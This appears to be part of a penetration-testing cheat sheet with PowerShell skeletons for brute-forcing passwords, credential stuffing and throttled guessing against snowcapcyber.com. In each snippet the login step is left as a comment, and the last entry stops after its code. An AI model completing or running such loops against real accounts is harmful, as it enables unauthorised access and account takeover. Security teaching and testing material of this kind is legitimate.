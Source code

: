 ### General Brute Forcing with PowerShell

**Script/Command:**

```powershell
$passwords = Get-Content "passwords.txt"
$username = "root"
$target = "snowcapcyber.com"
foreach ($password in $passwords) {
    $credentials = New-Object PSCredential -ArgumentList ($username, (ConvertTo-SecureString -AsPlainText $password -Force))
    # Attempt login using $credentials against $target
    # Use Test-Credential cmdlet to validate
    # Perform additional actions based on the response
}
```

**Description:**

Automates the process of attempting different password combinations for a given username against a target, reading passwords from a file.

**Example:**

Test passwords from passwords.txt for username "root" against snowcapcyber.com.

---

**Script/Command:**

```powershell
$credentials = Get-Content "credentials.txt" | ConvertTo-SecureString
$target = "snowcapcyber.com"
foreach ($credential in $credentials) {
    # Attempt login using $credential against $target
    # Perform additional actions based on the response
}
```

**Description:**

Automates credential stuffing by attempting previously compromised username-password pairs from a file against a target service.

**Example:**

Test credential pairs from credentials.txt against snowcapcyber.com.

---

**Script/Command:**

```powershell
$passwords = Get-Content "wordlist.txt"
$username = "admin"
$target = "snowcapcyber.com"
$delaySeconds = 2
foreach ($password in $passwords) {
    $credentials = New-Object PSCredential -ArgumentList ($username, (ConvertTo-SecureString -AsPlainText $password -Force))
    # Attempt login using $credentials against $target
    Start-Sleep -Seconds $delaySeconds
    # Perform additional actions based on the response
}
```
